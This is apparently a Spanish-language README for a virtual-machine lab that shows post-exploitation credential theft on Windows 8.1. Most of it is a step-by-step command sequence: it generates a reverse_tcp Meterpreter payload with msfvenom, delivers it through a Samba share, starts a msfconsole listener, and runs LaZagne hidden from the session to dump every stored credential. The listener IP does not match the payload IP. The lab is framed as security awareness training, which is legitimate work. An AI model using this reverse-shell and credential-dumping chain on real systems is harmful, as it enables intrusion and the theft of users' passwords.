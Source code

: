 #  Laboratorio de Ingeniería Social — Extracción de Credenciales en Windows 8.1

##  Descripción del laboratorio

Este laboratorio simula un escenario de post-explotación en un entorno virtual controlado. El objetivo es demostrar cómo un atacante puede extraer credenciales almacenadas en una máquina Windows 8.1 utilizando herramientas como Meterpreter y LaZagne, sin que el usuario lo note. Todo el ejercicio se realiza con fines educativos y de concientización en ciberseguridad.

## Herramientas utilizadas

- Kali Linux (máquina atacante)
- Windows 8.1 (máquina víctima)
- LaZagne — herramienta de extracción de credenciales
- Meterpreter — ejecución remota
- msfvenom / msfconsole — generación y manejo de payloads
- Samba — para compartir archivos entre máquinas virtuales

##  Objetivo

Mostrar cómo un atacante puede ejecutar herramientas de extracción de credenciales en una máquina Windows comprometida, usando acceso remoto y técnicas silenciosas. El laboratorio permite entender los riesgos y aplicar medidas de defensa en entornos reales.

##  Instrucciones paso a paso

### 1. Preparación del entorno

- Inicia Kali Linux y Windows 8.1 en máquinas virtuales.
- Asegúrate de que ambas máquinas estén en la misma red virtual (puente o NAT).

### 2. Instalación de dependencias en Kali
sudo apt update

sudo apt install git python3 python3-pip mingw-w64 -y

git clone https://github.com/AlessandroZ/LaZagne.git

cd LaZagne

pip3 install -r requirements.txt

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.158 LPORT=4444 -f exe -o payload.exe

cp /home/kali/Desktop/payload.exe /home/kali/samba_share/

sudo systemctl restart smbd

sudo systemctl start nmbd

sudo systemctl status smbd

####Acceder desde Windows a la carpeta compartida

________En el explorador de archivos de Windows, accede a \\<IP_Kali>\samba_share

________Copia payload.exe y LaZagne.exe al escritorio de Windows

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.101.83

set LPORT 4444

exploit

#######Ejecutar LaZagne desde sesión Meterpreter

execute -f "C:\\Users\\Administrator\\Desktop\\LaZagne.exe" -a "all -oA -output 

C:\\Users\\Administrator\\Desktop\\resultados" -H





